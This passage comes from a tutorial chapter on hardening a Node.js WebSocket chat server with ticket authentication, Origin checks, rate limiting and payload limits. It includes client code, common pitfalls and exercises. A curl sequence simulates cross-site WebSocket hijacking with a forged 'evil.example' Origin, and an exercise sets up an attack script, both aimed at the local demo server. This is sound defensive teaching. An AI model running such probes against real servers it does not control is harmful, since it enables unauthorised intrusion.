        const out = { room, from: ws.user.id, text, at: Date.now() };
        for (const peer of rooms.get(room)) send(peer, 'chat:message', out);
        return;
      }
    }
  });

  ws.on('close', (code) => {
    const n = (connsPerIp.get(ws.ip) ?? 1) - 1;
    n <= 0 ? connsPerIp.delete(ws.ip) : connsPerIp.set(ws.ip, n);
    for (const r of ws.rooms) rooms.get(r)?.delete(ws);
    log('disconnect', { user: ws.user.id, code });
  });
  ws.on('error', () => {}); // e.g. 1009 maxPayload errors; 'close' follows
});

// Structured logging — note we log the path only, never the query string (ticket).
function log(event, fields) {
  console.log(JSON.stringify({ t: new Date().toISOString(), event, ...fields }));
}

server.listen(PORT, () => {
  console.log(`Chapter 6 secure server on http://localhost:${PORT}`);
  console.log('Demo users: alice/alice123 (admin), bob/bob123');
});
```

### Full listing — `examples/06-security/public/index.html`

```html
<!doctype html>
<html lang="en">
<head>
  <meta charset="utf-8" />
  <meta name="viewport" content="width=device-width, initial-scale=1" />
  <title>Ch.6 — Secure WebSocket chat</title>
  <style>
    body { font: 15px/1.4 system-ui, sans-serif; max-width: 720px; margin: 2rem auto; padding: 0 1rem; }
    fieldset { margin-bottom: 1rem; }
    #log { border: 1px solid #ccc; height: 300px; overflow-y: auto; padding: .5rem; font-family: monospace; white-space: pre-wrap; }
    .err { color: #b00; } .sys { color: #666; }
  </style>
</head>
<body>
  <h1>Secure chat (ticket auth)</h1>

  <fieldset>
    <legend>1. Log in (HTTP)</legend>
    <input id="user" value="bob" /> <input id="pass" type="password" value="bob123" />
    <button id="connect">Log in &amp; connect</button>
  </fieldset>

  <fieldset>
    <legend>2. Rooms &amp; messages (WebSocket)</legend>
    <select id="room"><option>general</option><option>random</option><option>admins</option></select>
    <button id="join">Join</button>
    <input id="text" placeholder="message" /> <button id="send">Send</button>
    <button id="flood" title="Send 30 messages at once to trip the token bucket">Flood ×30</button>
    <button id="big" title="Send a 20 KiB frame to exceed maxPayload">Send 20 KiB</button>
  </fieldset>

  <div id="log"></div>

  <script type="module">
    const $ = (id) => document.getElementById(id);
    const log = (line, cls = '') => {
      const div = document.createElement('div');
      div.textContent = line;
      div.className = cls;
      $('log').append(div);
      $('log').scrollTop = $('log').scrollHeight;
    };
    let ws;

    async function connect() {
      // Step 1: exchange credentials for a JWT. The JWT stays in memory — it is
      // used only on HTTP requests (Authorization header), never in a WS URL.
      const loginRes = await fetch('/api/login', {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify({ username: $('user').value, password: $('pass').value }),
      });
      if (!loginRes.ok) return log('login failed', 'err');
      const { token } = await loginRes.json();

      // Step 2: trade the JWT for a single-use, 30-second ticket.
      const ticketRes = await fetch('/api/ticket', {
        method: 'POST',
        headers: { Authorization: `Bearer ${token}` },
      });
      if (!ticketRes.ok) return log('ticket failed', 'err');
      const { ticket } = await ticketRes.json();

      // Step 3: open the socket with the ticket. Use wss:// when the page is https.
      const scheme = location.protocol === 'https:' ? 'wss' : 'ws';
      ws?.close();
      ws = new WebSocket(`${scheme}://${location.host}/ws?ticket=${encodeURIComponent(ticket)}`);
      ws.onopen = () => log('connected', 'sys');
      ws.onclose = (e) => log(`closed code=${e.code} reason="${e.reason}"`, 'sys');
      ws.onmessage = (e) => {
        const msg = JSON.parse(e.data);
        if (msg.type === 'chat:message') log(`[${msg.payload.room}] ${msg.payload.from}: ${msg.payload.text}`);
        else if (msg.type === 'error') log(`error: ${msg.payload.reason}`, 'err');
        else log(`${msg.type} ${JSON.stringify(msg.payload)}`, 'sys');
      };
    }

    const send = (type, payload) =>
      ws?.readyState === WebSocket.OPEN && ws.send(JSON.stringify({ type, id: crypto.randomUUID(), payload }));

    $('connect').onclick = connect;
    $('join').onclick = () => send('room:join', { room: $('room').value });
    $('send').onclick = () => send('chat:message', { room: $('room').value, text: $('text').value });
    $('flood').onclick = () => {
      for (let i = 0; i < 30; i++) send('chat:message', { room: $('room').value, text: `flood ${i}` });
    };
    $('big').onclick = () => send('chat:message', { room: $('room').value, text: 'x'.repeat(20 * 1024) });
  </script>
</body>
</html>
```

### Running it

```bash
npm run ex:06
# open http://localhost:3000  — log in as bob/bob123 or alice/alice123
```

Try it:

- As **bob**, join `general` → works. Join `admins` → `error: forbidden`. Log in as **alice** in another tab and join `admins` → works.
- Click **Flood ×30**: the first ~10 go through (bucket capacity), then `rate limited` errors, and after 3 strikes the socket closes with `code=1008`.
- Click **Send 20 KiB**: closed with `code=1009` (Message Too Big).
- From a terminal, simulate CSWSH with a foreign Origin:

```bash
# get a ticket first
TOKEN=$(curl -s -XPOST localhost:3000/api/login -H 'content-type: application/json' \
  -d '{"username":"bob","password":"bob123"}' | node -pe 'JSON.parse(require("fs").readFileSync(0)).token')
TICKET=$(curl -s -XPOST localhost:3000/api/ticket -H "authorization: Bearer $TOKEN" \
  | node -pe 'JSON.parse(require("fs").readFileSync(0)).ticket')
# attempt an upgrade from evil.example — expect HTTP/1.1 403
curl -i -N --http1.1 -H 'Connection: Upgrade' -H 'Upgrade: websocket' \
  -H 'Sec-WebSocket-Version: 13' -H 'Sec-WebSocket-Key: dGhlIHNhbXBsZSBub25jZQ==' \
  -H 'Origin: https://evil.example' "localhost:3000/ws?ticket=$TICKET"
```

- Reuse a ticket twice (e.g. with `wscat -o http://localhost:3000 -c "ws://localhost:3000/ws?ticket=$TICKET"`) — the first connects, the second gets `401`.

---

## Common pitfalls

- **Assuming CORS protects the WebSocket.** It doesn't. No Origin check = CSWSH.
- **Origin checks with substring/regex matching** (`origin.includes('example.com')`). Use an exact-match `Set`.
- **Treating Origin as authentication.** Non-browser clients can send any Origin. It only stops browser-based cross-site abuse.
- **Long-lived JWTs in `?token=`**. They land in logs. Use short-lived single-use tickets.
- **Doing auth after `handleUpgrade`** (in `connection`) — you've already allocated the WebSocket and told the attacker the endpoint works. Reject in `upgrade`.
- **Reading `from`/`userId` from the payload** instead of `ws.user`.
- **Only authorizing at join/connect** — also check membership/permission on every action.
- **Leaving `maxPayload` at the 100 MiB default.**
- **Uncaught `JSON.parse` throws** inside `message` handlers crashing the process.
- **No `error` listener on `ws`** — a 1009 or `ECONNRESET` becomes an unhandled `'error'` event.
- **Enabling `permessage-deflate` without thinking** about memory per connection and bombs.
- **Forgetting that `ws.close()` of a revoked user's other tabs** is your job — revocation isn't automatic with sockets.
- **Trusting `X-Forwarded-For` blindly** for per-IP limits — attackers can set it unless your proxy overwrites it.
- **`innerHTML` for chat messages** on the client → broadcast XSS.

---

## Exercises

1. **Token expiry sweep.** Store the JWT's `exp` in the ticket entry and on `ws.user`. Add a 10-second interval that closes sockets with `4001 'token expired'` once `exp` has passed. Make the client catch code 4001, fetch a fresh ticket, and reconnect.
2. **Weighted costs.** Change `take()` to `take(cost)` and give `room:join` a cost of 3 and `chat:message` a cost of `1 + roomSize / 100`. Verify with a script that joining in a loop is throttled harder.
3. **Redis tickets.** Replace the `tickets` Map with ioredis: `SET ticket:<t> <json> EX 30 NX` on issue and `GETDEL` on redeem. Run two instances on different ports and prove a ticket issued by one can be redeemed exactly once on the other.
4. **Revocation.** Maintain `userSockets: Map<userId, Set<ws>>`. Add `POST /api/logout` (JWT-protected) that closes all of that user's sockets with code 4003.
5. **Attack script.** Write a Node script using `ws` that (a) connects with `Origin: https://evil.example`, (b) reuses a ticket, (c) opens 6 connections from one IP, (d) sends a 1 MiB frame, (e) sends malformed JSON 3 times. Assert each outcome (403, 401, 429, 1009, 1008).

<details>
<summary>Hints</summary>

- (1) `jwt.verify` returns the decoded payload including `exp` in **seconds**; compare with `Date.now() / 1000`. In the browser, `onclose` gives you `e.code`.
- (2) `rooms.get(room)?.size ?? 0` gives the size; tokens are floats, so fractional costs just work.
- (3) `GETDEL` is atomic, which is exactly what makes "single use" hold across processes. ioredis exposes it as `redis.getdel(key)`.
- (4) Add sockets to the index in `connection`, remove in `close`. Remember a user may have several tabs.
- (5) With the `ws` client: `new WebSocket(url, { origin: 'https://evil.example' })`; listen to `'unexpected-response'` to read `res.statusCode` for rejected upgrades.

</details>

---

## Key takeaways

- The **upgrade request** is your cheap rejection point: path → Origin → connection limits → authentication, all before `handleUpgrade`.
- **CORS does not apply to WebSockets.** Check `Origin` against an exact allowlist to stop CSWSH.
- Authenticate with **short-lived, single-use, IP-bound tickets** obtained over normal authenticated HTTP; keep long-lived tokens out of URLs and logs.
- **Authorize every message**; take identity from the server-side session (`ws.user`), never the payload.
- Treat every frame as hostile: **`maxPayload`**, reject unexpected binary, **safe `JSON.parse`**, **zod schemas**, strike counting with close code **1008**.
- Bound resources: **token bucket per connection**, **connections per IP**, HTTP header timeouts, heartbeats and backpressure (Chapter 5).
- Leave **`permessage-deflate` off** unless you've measured the need and configured it defensively.
- Use **`wss://`** everywhere outside localhost; terminate TLS at the edge.

---

Next → [Chapter 7 — Socket.IO](07-socketio.md)
